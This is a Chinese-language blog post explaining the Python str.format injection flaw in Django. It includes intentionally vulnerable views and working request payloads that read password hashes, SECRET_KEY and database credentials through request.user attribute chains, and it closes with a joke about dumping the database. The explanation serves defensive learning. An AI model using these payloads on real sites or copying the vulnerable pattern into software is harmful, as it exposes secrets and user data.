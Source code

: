 # python format格式化函数漏洞

突然提这个漏洞是提交代码到公司服务器后，组长review我的代码时提的，说format其实不安全，百分号形式虽然丑，但还是尽量用百分号形式写，然后就有了下面研究，内容主要参考：

[Python 格式化字符串漏洞（Django为例）](https://www.leavesongs.com/PENETRATION/python-string-format-vulnerability.html)

## python常见格式化字符串

python中比较常见的格式化字符串方式有：

1.百分号形式进行字符串格式化

```python
In [1]: 'Hello, %s, I love %s'%('ayuliao','python')
Out[1]: 'Hello, ayuliao, I love python'
```

2.使用format函数进行字符串格式化

```python
In [4]: '{name}'.format(name='ayuliao') # 普通用法
Out[4]: 'ayuliao'

In [5]: '{name!r}'.format(name='ayuliao') # 等同于 repr(name)
Out[5]: "'ayuliao'"

In [6]: '{num:0.2f}'.format(num=2.3333) # 保留后两位小数
Out[6]: '2.33'

In [7]: 'int: {0:d}; hex: {0:#x}; oct: {0:#o}; bin: {0:#b}'.format(42) # 转换进制
   ...:
Out[7]: 'int: 42; hex: 0x2a; oct: 0o52; bin: 0b101010

In [9]: '{arr[2]}'.format(arr=[1,2,3]) # 获取对象属性
Out[9]: '3'
```

3.python3.6以上可以使用 f 关键字进行格式化

f关键字有获取当前 context 下变量的能力

```python
In [10]: a = 'Hello'

In [11]: f'{a} world'
Out[11]: 'Hello world'
```

## format造成的安全隐患

重点聊聊format()方法会带来的问题，我复现一下参考文章中的例子

在Django项目中使用format()函数，Django是Python Web开发的一款知名框架

创建一个Django项目，并在该项目中创建一个应用，在该应用的views.py上创建使用format()函数的危险方法

```python
#获得登录用户的email
def hackview(requests, *args, **kwargs):
    u = requests.GET.get('email')
    template = 'Hello {user}, This is your email:' + requests.GET.get('email')
    return HttpResponse(template.format(user=requests.user))
```

hackview()方法的作用非常简单，就是获取登录用户的email，在urls.py上注册一个该方法对应的url路径

```python
urlpatterns = [
    url(r'^hackview/', hackview),
    ...
```

正常的访问：

![format_1](http://p6un02lk4.bkt.clouddn.com/format_1.png)

但是如果用户登录，我们完成可以利用这个方法获得用户的密码，只需稍微修改一下请求url

![format_2](http://p6un02lk4.bkt.clouddn.com/format_2.png)

从图中可以看出，我们获得了当前登录用户的用户名、用户在数据库中的ID、进过哈希处理后的用户密码

这个请求在Django中发生了什么？

首先user是hackview()方法上下文中仅有的一个变量，在hackview()方法中，使用了format(user=request.user)，也就是将发起请求的当前用户放到字符串中，在Django中requests.user就是当前对象，如果不做任何处理，打印时Django就会输出当前用户的username

但我们没有正常请求这个链接，通过{user.pk}|{user.username}|{user.password}作为参数请求链接，相当于打印字符变为

```
Hello {user}, This is your email:{user.pk}|{user.username}|{user.password}
```

那么经过format处理，当然就将requests.user中的相关参数都打印出来了

如果编写web项目的人毫无安全意识，出现下面的方法

```python
from django.shortcuts import  get_object_or_404
from django.contrib.auth.models import User

def hackview2(requests, *args, **kwargs):
    user = get_object_or_404(User, pk = requests.GET.get('uid'))
    template = 'Hello {user}\'s, This is your email:' + requests.GET.get('email')
    return HttpResponse(template.format(user=user))
```

我们就可以获得任何用户的用户名和进过哈希处理后的密码了

![format_3](http://p6un02lk4.bkt.clouddn.com/format_3.png)

通过传递uid，从而获得数据库中相应id用户的信息

但是这种“骚”写法现实中还是比较少有的

## 提取高敏信息

如果真的遇到了hackview()方法中的写法，光获得用户哈希后的密码其实没啥意思，感觉也没啥，毕竟密码是经过加盐哈希过的，没了就没了，但问题比想象的严重。

我们可以利用hackview()方法获得Web项目的所有配置信息，包括，项目秘钥，数据库地址、用户名和明文密码。

Django是个庞大繁杂的工具，它默认就我们提供了缓存、ORM、管理后台、反爬限制等功能，这可以让我们快速开发一个web系统，但这也称为了它的弱点，越庞大的项目，存在bug的可能性越大

思路：通过挖掘Django自带应用，看看这些应用中有无导入Django配置文件

Django自带的后台就导入了项目的配置文件

![format_4](http://p6un02lk4.bkt.clouddn.com/format_4.png)

或者进入debug模式，慢慢找，可以发现 requests.user._meta.app_config.module.admin.settings下有我们想要的内容

![format_5](http://p6un02lk4.bkt.clouddn.com/format_5.png)

![format_6](http://p6un02lk4.bkt.clouddn.com/format_6.png)

将我们找到这些路径作为请求参数，请求hackview()方法对应的接口，就可以获得该web项目的敏感信息了

有3个具体的实例

获取web项目的秘钥

```
http://localhost:8000/hackview/?email={user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}

http://localhost:8000/?email={user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}
```

返回内容：

```
Hello AnonymousUser, This is your email:qxzxiv(6v4v+#^4$n^kwmw!)r5_=aq(v)o&sj@8p2&)j=4-8h$
```



获取该web项目数据库的配置

```
http://localhost:8000/hackview/?email={user.groups.model._meta.app_config.module.admin.settings.DATABASES}
```

![format_7](http://p6un02lk4.bkt.clouddn.com/format_7.png)

很负责的告诉你，全是明文，接下来怎么骚不用我教了吧，远程连上去，将它提了

## 结尾

组长你是怎么知道这个的?

他的眼神突然变得深邃，似乎想起了很远很远的事，想起了以前的兄弟，想起了以前的爱人，想起...，想到情深处，他望着远方的天空，内心的忧伤弥漫而出，天空似乎也变得阴沉，默默的他吸了口手中快烧到头的烟，用半沙哑的声音说，老子之前的项目就因为这个被脱裤了。

en......莫名的开心

生活愉快 :-D


